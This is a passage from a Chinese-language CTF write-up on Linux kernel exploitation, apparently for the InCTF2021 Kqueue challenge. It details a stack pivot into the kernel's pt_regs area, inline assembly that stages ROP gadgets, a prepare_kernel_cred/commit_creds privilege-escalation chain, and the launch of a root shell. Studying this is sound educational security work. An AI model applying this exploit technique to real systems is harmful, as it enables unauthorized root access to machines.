| RIP            | ← 指令指针（返回地址）
| CS             | ← 代码段寄存器
| RFLAGS         | ← 标志寄存器
| RSP            | ← 用户态栈指针
| SS             | ← 栈段寄存器
+----------------+ 高地址（栈底方向）
```

**栈迁移计算原理**：
通过调试分析发现，当`read`系统调用触发`seq_operations->single_start`函数指针时，当前的栈指针RSP距离内核栈中`pt_regs`结构的R15寄存器的距离为$$\text{0xd0 + 0x10 = 0xe0}$$字节。这意味着从当前栈帧到`pt_regs`结构R15寄存器位置有224字节的偏移。

**精心设计的栈迁移**：
`add rsp, 0xd0`指令将栈指针增加208字节（0xd0）。执行后，RSP距离`pt_regs`结构的R15寄存器位置还剩：

$$
\text{0xe0 - 0xd0 = 0x10} \text{字节}
$$

然后执行`pop rbx`（弹出当前栈顶值到RBX，栈指针+8），此时RSP距离R15位置为：

$$
\text{0x10 - 0x8 = 0x8}
$$

再执行`pop rbp`（弹出当前栈顶值到RBP，栈指针+8），此时RSP距离R15位置为：

$$
\text{0x8 - 0x8 = 0x0}
$$

最后执行`ret`指令，从当前栈顶（即`pt_regs`结构的R15位置）弹出值到RIP，跳转到该地址。同时栈指针增加8字节，指向R14位置。

**寄存器布局设计**：
通过内联汇编精确设置`pt_regs`结构的寄存器值，这些值在系统调用时被保存到内核栈的相应位置。寄存器在`pt_regs`中的布局与代码中设置的顺序完全一致，确保了栈迁移后控制流的正确转移。

```c
__asm__("mov r15,   pop_rdi_ret;"        // 对应pt_regs的R15字段
        "mov r14,   0;"                  // 对应pt_regs的R14字段
        "mov r13,   prepare_kernel_cred;" // 对应pt_regs的R13字段
        "mov r12,   pop_rcx_pop_rbx_pop_rbp_ret;" // 对应pt_regs的R12字段
        "mov rbp,   0;"                  // 对应pt_regs的RBP字段
        "mov rbx,   0x55555555;"         // 对应pt_regs的RBX字段
        "mov r11,   0x66666666;"         // 对应pt_regs的R11字段
        "mov r10,   mov_rdi_rax_rep_movsq_rdi_rsi_ret;" // 对应pt_regs的R10字段
        "mov r9,    commit_creds;"       // 对应pt_regs的R9字段
        "mov r8,    swapgs_restore_regs_and_return_to_usermode;" // 对应pt_regs的R8字段
        "xor rax,   rax;"                // 对应pt_regs的RAX字段（read系统调用号=0）
        "mov rcx,   0xaaaaaaaa;"         // 对应pt_regs的RCX字段
        "mov rdx,   8;"                  // 对应pt_regs的RDX字段
        "lea rsi,   data;"               // 对应pt_regs的RSI字段
        "mov rdi,   victim_fd;"          // 对应pt_regs的RDI字段
        "syscall");                      // 执行read系统调用
```

**偏移计算验证**：
通过调试确定，当执行`seq_operations->single_start`时，栈指针RSP与`pt_regs`结构R15寄存器位置的精确偏移为0xe0。栈迁移指令`add rsp, 0xd0`将栈指针移动到距离R15位置0x10的位置。随后两次`pop`操作（各移动8字节）将栈指针精确移动到R15位置，`ret`指令从该位置弹出R15的值到RIP，实现控制流转移。

#### 3-3-3. 栈迁移与ROP链执行

栈迁移指令序列将栈指针精确调整到`pt_regs`结构的R15寄存器位置，然后通过`ret`指令跳转到`pop_rdi_ret`地址，开始执行精心设计的ROP链，完成权限提升和状态恢复。

**栈迁移执行流程**：

1. `add rsp, 0xd0`：栈指针增加208字节，从当前栈帧移动到距离`pt_regs`的R15位置0x10处
2. `pop rbx`：弹出当前栈顶值到RBX寄存器，栈指针增加8字节，指向距离R15位置0x08处
3. `pop rbp`：弹出当前栈顶值到RBP寄存器，栈指针增加8字节，指向R15位置
4. `ret`：从R15位置弹出值（`pop_rdi_ret`地址）到RIP，跳转到该指令，栈指针增加8字节，指向R14位置

**ROP链执行流程**：
栈迁移后，执行流进入预设的ROP链，实现权限提升和状态恢复功能。ROP链的执行完全基于`pt_regs`中寄存器的布局，通过连续的`ret`指令实现控制流转移。

```mermaid
graph TD
    A["开始执行seq_operations->single_start"]:::start
    A --> B["add rsp, 0xd0"]:::stack1
    B --> C["pop rbx"]:::stack2
    C --> D["pop rbp"]:::stack3
    D --> E["ret → 弹出R15到RIP<br/>跳转到pop_rdi_ret"]:::stack4

    E --> F["执行pop_rdi_ret指令"]:::rop1
    F --> G["弹出R14(0)到RDI寄存器"]:::rop2
    G --> H["ret → 弹出R13到RIP<br/>跳转到prepare_kernel_cred"]:::rop3

    H --> I["执行prepare_kernel_cred(0)"]:::rop4
    I --> J["RAX=新凭证指针<br/>返回到R12位置"]:::rop5
    J --> K["执行pop_rcx_pop_rbx_pop_rbp_ret"]:::rop6
    K --> L["设置RCX=0，清理RBX/RBP寄存器"]:::rop7
    L --> M["ret → 弹出R10到RIP<br/>跳转到mov_rdi_rax_rep_movsq_rdi_rsi_ret"]:::rop8

    M --> N["执行mov_rdi_rax_rep_movsq_rdi_rsi_ret"]:::rop9
    N --> O["将RAX中的凭证指针移动到RDI<br/>RCX=0确保rep movsq不执行"]:::rop10
    O --> P["ret → 弹出R9到RIP<br/>跳转到commit_creds"]:::rop11

    P --> Q["执行commit_creds(rdi)"]:::rop12
    Q --> R["应用新凭证到当前进程"]:::rop13
    R --> S["ret → 弹出R8到RIP<br/>跳转到swapgs_restore_regs_and_return_to_usermode"]:::rop14

    S --> T["执行swapgs_restore_regs_and_return_to_usermode"]:::rop15
    T --> U["交换GS寄存器<br/>恢复用户态寄存器<br/>通过iretq返回用户态"]:::rop16

    classDef start fill:#e1f5fe,stroke:#0277bd,stroke-width:3px
    classDef stack1 fill:#bbdefb,stroke:#0277bd,stroke-width:2px
    classDef stack2 fill:#90caf9,stroke:#0277bd,stroke-width:2px
    classDef stack3 fill:#64b5f6,stroke:#0277bd,stroke-width:2px
    classDef stack4 fill:#42a5f5,stroke:#0277bd,stroke-width:2px
    classDef rop1 fill:#c8e6c9,stroke:#2e7d32,stroke-width:2px
    classDef rop2 fill:#a5d6a7,stroke:#2e7d32,stroke-width:2px
    classDef rop3 fill:#81c784,stroke:#2e7d32,stroke-width:2px
    classDef rop4 fill:#4caf50,stroke:#2e7d32,stroke-width:3px
    classDef rop5 fill:#66bb6a,stroke:#2e7d32,stroke-width:2px
    classDef rop6 fill:#a5d6a7,stroke:#2e7d32,stroke-width:2px
    classDef rop7 fill:#81c784,stroke:#2e7d32,stroke-width:2px
    classDef rop8 fill:#4caf50,stroke:#2e7d32,stroke-width:2px
    classDef rop9 fill:#c8e6c9,stroke:#2e7d32,stroke-width:2px
    classDef rop10 fill:#a5d6a7,stroke:#2e7d32,stroke-width:2px
    classDef rop11 fill:#81c784,stroke:#2e7d32,stroke-width:2px
    classDef rop12 fill:#4caf50,stroke:#2e7d32,stroke-width:3px
    classDef rop13 fill:#66bb6a,stroke:#2e7d32,stroke-width:2px
    classDef rop14 fill:#a5d6a7,stroke:#2e7d32,stroke-width:2px
    classDef rop15 fill:#fff3e0,stroke:#f57c00,stroke-width:2px
    classDef rop16 fill:#ffecb3,stroke:#f57c00,stroke-width:3px
```



**权限提升详细流程**：

1. **参数准备阶段**：
    - 执行`pop_rdi_ret`指令，从栈中（R14位置）弹出0到RDI寄存器
    - `ret`指令从R13位置弹出`prepare_kernel_cred`地址到RIP，跳转到该函数

2. **凭证创建阶段**：
    - 执行`prepare_kernel_cred(0)`，以参数0创建新的凭证结构
    - 函数返回时，RAX寄存器包含新凭证的指针
    - 返回地址指向R12位置，执行寄存器设置指令

3. **寄存器设置阶段**：
    - 执行`pop_rcx_pop_rbx_pop_rbp_ret`，从栈中弹出RCX、RBX、RBP寄存器的值
    - 此处关键是将RCX设置为0，确保后续`rep movsq`指令不执行实际内存复制操作
    - 同时清理RBX和RBP寄存器，为后续操作准备干净的寄存器环境
    - `ret`指令从R10位置弹出移动指令地址到RIP

4. **凭证指针传递阶段**：
    - 执行`mov_rdi_rax_rep_movsq_rdi_rsi_ret`指令序列
    - 此序列将RAX寄存器中的凭证指针移动到RDI寄存器
    - 由于RCX=0，`rep movsq`指令不执行实际的内存复制操作
    - 这确保了RDI中的凭证指针不会被破坏，保持完整性
    - `ret`指令从R9位置弹出`commit_creds`地址到RIP

5. **权限应用阶段**：
    - 执行`commit_creds(rdi)`，将RDI寄存器中的凭证指针应用到当前进程
    - 函数完成权限提升操作
    - 返回地址指向R8位置，执行状态恢复函数

6. **状态恢复阶段**：
    - 执行`swapgs_restore_regs_and_return_to_usermode`
    - 交换GS寄存器，从内核GS切换为用户GS
    - 从栈中恢复用户态寄存器值
    - 通过`iretq`指令返回用户态，同时恢复RIP、CS、RFLAGS、RSP、SS

**关键数学计算**：
栈迁移的精确性基于以下计算：

- 初始偏移：RSP距离`pt_regs`的R15位置 = 0xe0
- 栈迁移后：0xe0 - 0xd0 = 0x10
- 两次pop后：0x10 - 0x8 - 0x8 = 0x0
- ret执行时：栈指针指向R15位置

ROP链的执行基于`pt_regs`中寄存器值的精心布局，每个寄存器在`pt_regs`结构中的位置决定了控制流的转移顺序。通过这种设计，实现了从栈迁移到权限提升的完整控制流转移。

### 3-4. 权限验证

**权限检查机制**：
控制流返回用户态后，通过系统调用检查当前进程的权限状态，确认权限提升是否成功。关键的检查点包括用户ID、有效用户ID、组ID和有效组ID。

```c
if (!getuid()) {
    get_root_shell();
}
```

**交互式环境启动**：
权限验证成功后，启动新的交互式环境，提供完整的系统访问能力。通过`system("/bin/sh")`调用启动具有提升权限的交互环境。

### 3-5. 技术总结

本实战演练展示了从环境准备到权限验证的完整技术演示链，涉及整数溢出漏洞、堆缓冲区溢出、内存布局控制、栈迁移技术和ROP链构造等多个关键技术点。技术演示过程首先通过整数溢出创建异常内存结构，然后通过堆溢出修改相邻结构体的函数指针，接着通过系统调用触发被修改的函数指针，执行精心计算的栈迁移指令将控制流转移到`pt_regs`结构区域，最后通过预设的ROP链实现权限提升。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/HeapOverflow2
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#例题：InCTF2021-Kqueue
